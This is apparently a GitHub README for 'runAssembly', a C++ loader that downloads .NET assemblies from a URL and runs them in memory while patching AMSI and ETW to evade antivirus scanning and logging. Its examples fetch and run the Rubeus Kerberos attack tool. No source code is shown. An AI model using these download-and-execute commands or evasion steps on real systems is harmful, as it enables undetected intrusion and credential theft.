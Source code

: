 # Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--tls] [--] [extra_args]
```
![](./runAssembly.png)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--tls` | Enable HTTPS/TLS (default: disabled) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe --tls

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

